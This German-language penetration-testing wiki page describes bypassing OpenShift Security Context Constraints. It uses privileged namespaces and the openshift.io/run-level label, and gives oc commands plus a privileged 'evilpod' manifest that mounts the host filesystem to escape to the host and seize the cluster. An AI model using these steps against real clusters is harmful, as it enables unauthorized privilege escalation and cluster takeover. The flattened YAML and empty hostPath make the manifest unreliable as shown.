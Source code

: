 # Openshift - SCC bypass

**Der ursprüngliche Autor dieser Seite ist** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privilegierte Namespaces

Standardmäßig wird SCC nicht auf folgenden Projekten angewendet:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Wenn Sie Pods in einem dieser Namespaces bereitstellen, wird kein SCC durchgesetzt, was die Bereitstellung von privilegierten Pods oder das Einbinden des Host-Dateisystems ermöglicht.

## Namespace-Label

Es gibt eine Möglichkeit, die Anwendung von SCC auf Ihrem Pod gemäß der RedHat-Dokumentation zu deaktivieren. Sie müssen mindestens eine der folgenden Berechtigungen haben:

- Erstellen eines Namespaces und Erstellen eines Pods in diesem Namespace
- Bearbeiten eines Namespaces und Erstellen eines Pods in diesem Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Das spezifische Label `openshift.io/run-level` ermöglicht es Benutzern, SCCs für Anwendungen zu umgehen. Laut der RedHat-Dokumentation werden bei Verwendung dieses Labels keine SCCs auf alle Pods innerhalb dieses Namensraums durchgesetzt, wodurch alle Einschränkungen effektiv aufgehoben werden.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Label hinzufügen

Um das Label in Ihrem Namensraum hinzuzufügen:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Um einen Namespace mit dem Label über eine YAML-Datei zu erstellen:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Jetzt sollten alle neuen Pods, die im Namespace erstellt werden, keine SCC haben.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In Abwesenheit von SCC gibt es keine Einschränkungen für Ihre Pod-Definition. Das bedeutet, dass ein bösartiger Pod leicht erstellt werden kann, um auf das Host-System zu entkommen.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Jetzt ist es einfacher geworden, Privilegien zu eskalieren, um auf das Hostsystem zuzugreifen und anschließend den gesamten Cluster zu übernehmen, wodurch 'cluster-admin' Privilegien erlangt werden. Suchen Sie nach dem Abschnitt **Node-Post Exploitation** auf der folgenden Seite:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Benutzerdefinierte Labels

Darüber hinaus können je nach Zielkonfiguration einige benutzerdefinierte Labels / Annotationen auf die gleiche Weise wie im vorherigen Angriffszenario verwendet werden. Auch wenn sie nicht dafür vorgesehen sind, könnten Labels verwendet werden, um Berechtigungen zu erteilen oder eine bestimmte Ressource einzuschränken oder nicht.

Versuchen Sie, nach benutzerdefinierten Labels zu suchen, wenn Sie einige Ressourcen lesen können. Hier ist eine Liste interessanter Ressourcen:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste aller privilegierten Namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Fortgeschrittener Exploit

In OpenShift, wie zuvor demonstriert, kann das Berechtigung, ein Pod in einem Namespace mit dem `openshift.io/run-level`-Label zu deployen, zu einer unkomplizierten Übernahme des Clusters führen. Aus der Perspektive der Cluster-Einstellungen **kann diese Funktionalität nicht deaktiviert werden**, da sie Teil des Designs von OpenShift ist.

Allerdings können Maßnahmen wie **Open Policy Agent GateKeeper** verhindern, dass Benutzer dieses Label setzen.

Um die Regeln von GateKeeper zu umgehen und dieses Label zu setzen, um eine Cluster-Übernahme durchzuführen, **müssen Angreifer alternative Methoden identifizieren.**

## Referenzen

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
